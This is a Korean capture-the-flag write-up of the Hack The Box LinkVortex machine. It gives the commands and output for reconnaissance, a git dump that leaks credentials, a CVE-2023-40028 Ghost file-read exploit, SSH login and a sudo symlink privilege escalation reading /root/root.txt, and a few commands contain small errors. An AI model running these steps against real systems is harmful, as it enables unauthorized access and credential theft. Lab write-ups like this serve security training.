





해당 문제는 [https://app.hackthebox.com/machines/LinkVortex](https://app.hackthebox.com/machines/LinkVortex) 에서 확인할 수 있습니다.

***

# LinkVortex 시스템 모의 침투
## 수행 내용
1. 정보 수집
2. Ghost CMS 취약버전 확인
3. robots.txt 경로 유출확인
4. dev.linkvortex.htb 하위경로 발견
5. git 덤프 후 계정정보담긴 파일 유출
## 정보수집
### Nmap 스캔 - 사용중인 포트 및 배너, 기본 정보 수집

```
nmap -p- --max-retries 1 -Pn -n --open --min-rate 5000 -T4 -sV -sC -A -oA ./result {target_ip}
```

```
Starting Nmap 7.94 ( https://nmap.org ) at 2024-12-26 11:16 IST
Nmap scan report for 10.10.11.47
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://linkvortex.htb/
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- 80번 포트로 HTTP 서비스가 동작하고 있는 걸 확인할 수 있다.

```
whatweb {traget ip}
```

```
http://10.10.11.47 [301 Moved Permanently] Apache, Country[RESERVED][ZZ], HTTPServer[Apache], IP[10.10.11.47], RedirectLocation[http://linkvortex.htb/], Title[301 Moved Permanently]
http://linkvortex.htb/ [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache], IP[10.10.11.47], JQuery[3.5.1], MetaGenerator[Ghost 5.58], Open-Graph-Protocol[website], PoweredBy[Ghost,a], Script[application/ld+json], Title[BitByBit Hardware], X-Powered-By[Express], X-UA-Compatible[IE=edge]
```

- whatweb 결과 Ghost CMS 를 사용하고 있으며 5.58 버전으로 동작중인 걸 발견할 수 있다.



- 웹 접속시 특별한 기능은 없는 거 같다.

```
User-agent: *
Sitemap: http://linkvortex.htb/sitemap.xml
Disallow: /ghost/
Disallow: /p/
Disallow: /email/
Disallow: /r/
```

- robots.txt 경로가 존재했으며, 접속시 위와 같이 다양한 경로가 존재



- ghost 경로로 접속해보면 로그인 페이지가 출력됨
- 특정 계정을 우선적으로 획득해야함

```
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://linkvortex.htb/ -H "host:FUZZ.linkvortex.htb" -fs 230
```

```
                                                                                                                             /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://linkvortex.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Header           : Host: FUZZ.linkvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 230
________________________________________________

dev                     [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 322ms]
```

- ffuf 결과 dev 하위도메인이 존재하는 걸 확인


- 특별한 기능은 더 존재하지 않음

```
gobuster dir -u http://dev.linkvortex.htb -w /usr/share/wordlists/dirb/common.txt
```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dev.linkvortex.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 199]
/.htaccess            (Status: 403) [Size: 199]
/.git/HEAD            (Status: 200) [Size: 41]
/.htpasswd            (Status: 403) [Size: 199]
/cgi-bin/             (Status: 403) [Size: 199]
```

- .git 경로가 유출되고 있음을 확인할 수 있음.



- .git 경로에 다양한 파일 및 경로가 추가 노출되고 있음.

```
[-] Fetching http://dev.linkvortex.htb/.git/logs/HEAD [200]
[-] Fetching http://dev.linkvortex.htb/.git/info/exclude [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/e6/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/tags/v5.57.3 [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/50/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/pack/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/fsmonitor-watchman.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/commit-msg.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/post-update.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-commit.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-receive.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-push.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/update.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/e6/54b0ed7f9c9aedf3180ee1fd94e7e43b29f000 [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/push-to-checkout.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-merge-commit.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/50/864e0261278525197724b394ed4292414d9fec [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/pack/pack-0b802d170fe45db10157bb8e02bfc9397d5e9d87.idx [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/pack/pack-0b802d170fe45db10157bb8e02bfc9397d5e9d87.pack [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 5596 paths from the index
```

- git dumper를 사용하여 모든 내용을 파일로 정리했다.


```
find ./ -name "*auth*" 2> /dev/null 

find ./ -name "*authentication*" 2> /dev/null
```

```
./ghost/core/core/server/api/endpoints/utils/serializers/output/authentication.js
./ghost/core/core/server/api/endpoints/authentication.js
./ghost/core/test/e2e-api/admin/key-authentication.test.js
./ghost/core/test/e2e-api/content/key_authentication.test.js
./ghost/core/test/regression/api/admin/__snapshots__/authentication.test.js.snap
./ghost/core/test/regression/api/admin/authentication.test.js
./ghost/admin/mirage/config/authentication.js
./ghost/admin/tests/acceptance/authentication-test.js
```

- ***<span style="color:red"> ./ghost/core/test/regression/api/admin/authentication.test.js </span>***
- 인증과 관련된 파일들을 찾던 중 의심되는 파일로 ./ghost/core/test/regression/api/admin/authentication.test.js 파일을 찾음

```
cat ./ghost/core/test/regression/api/admin/authentication.test.js | grep "pass"
```

```javascript
 const password = 'OctopiFociPilfer45';
                        password,
            await agent.loginAs(email, password);
                        password: 'thisissupersafe',
                        password: 'thisissupersafe',
            const password = 'thisissupersafe';
                        password,
            await cleanAgent.loginAs(email, password);
                        password: 'lel123456',
                        password: '12345678910',
                        password: '12345678910',
        it('reset password', async function () {
                password: ownerUser.get('password')
            await agent.put('authentication/password_reset')
                    password_reset: [{
        it('reset password: invalid token', async function () {
                .put('authentication/password_reset')
                    password_reset: [{
        it('reset password: expired token', async function () {
                password: ownerUser.get('password')
                .put('authentication/password_reset')
                    password_reset: [{
        it('reset password: unmatched token', async function () {
                password: 'invalid_password'
                .put('authentication/password_reset')
                    password_reset: [{
        it('reset password: generate reset token', async function () {
                .post('authentication/password_reset')
                    password_reset: [{
    describe('Reset all passwords', function () {
        it('reset all passwords returns 204', async function () {
            await agent.post('authentication/global_password_reset')
```

- OctopiFociPilfer45 패스워드를 하드코딩된채로 노출되고 있음
- admin 패스워드로 추정되어 접근 시도




- 성공적으로 접근할 수 있었음
- 추가적인 웹 사이트에 대한 유의미한 정보는 나오지 않음
- 현재 웹 사이트가 ghost 를 사용하고 있으므로, 이전에 획득한 버전정보를 통해 관련 취약점을 찾음
- CVE-2023-40028 취약점이 존재했으며, LFI 취약점으로 특정 파일을 읽을 수 있음
- git dumper 결과 cat Dockerfile.ghost 파일도 확인함

```
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb

# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh

ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]
```

- config.production.json 경로가 노출되고 있음
- config.production.json 는 데이터베이스 연결 정보, 이메일 설정, URL 등이 포함되어 있음



- cve-2023-40028 Exploit PoC 스크립트를 가져와 url 부분을 수정 후 사용할 수 있음.

```
./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
```

```
WELCOME TO THE CVE-2023-40028 SHELL
file> /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
```

- 성공적으로 해당 익스코드가 실행되었으며, 테스트로 /etc/passwd 파일을 확인한 결과 정상적으로 확인됨
- 이후 이전에 확인한 /var/lib/ghost/config.production.json 파일을 확인함

```json
 "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
```

- 특정 사용자의 계정정보를 확인할 수 있음
- 이를 통해 bob 라는 사용자로 ssh접속을 시도해봄봄

```shell
└─$ ssh bob@10.10.11.47
bob@10.10.11.47's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Dec  3 11:41:50 2024 from 10.10.14.62
bob@linkvortex:~$  
```

- bob 사용자로 ssh 접속에 성공함

```shell
shdo -l
```

```shell
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

- sudo -l 결과 root 권한으로 /usr/bin/bash /opt/ghost/clean_symlink.sh *.png 명령을  실행할 수 있음

```shell
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

- 해당 스크립트를 확인해보면, 인자로 들어오는 LINK변수의 값이 png로 끝나는 파일 이어야 하면
- 인자로 들어온 png 파일이 심볼릭 링크가 설정되어 있어야한다.
- 이후 해당 png 파일에 심볼릭 링크의 경로를 읽어 root 혹은 etc 가 포함되어 있으면 안된다.
- 이후 두 조건을 통과하면 CHECK_CONTENT 값이 참일 경우 png 파일을 출력시켜준다.

***<span style="color:red">즉, CHECK_CONTENT 값은 true로 변경하고 심볼릭 링크를 /root 경로에 존재하는 root.txt 파일에 연결하면 되지만 root 문자열이 포함되므로 심볼릭 링크를 2번에 걸쳐 설정해놓으면 된다.</span>***

```shell
export $CHECK_CONTENT=true
touch file1.png file2.png
ln -sf /root/root.txt file1.png
ln -sf /home/bob/file1.png file2.png
sudo /usr/bin/bash /opt/ghost/clean_symlink.sh file2.png
```

```shell
Link found [ file2.png ] , moving it to quarantine
Content:
```

- 이를 통해 root 플래그를 획득할 수 있다.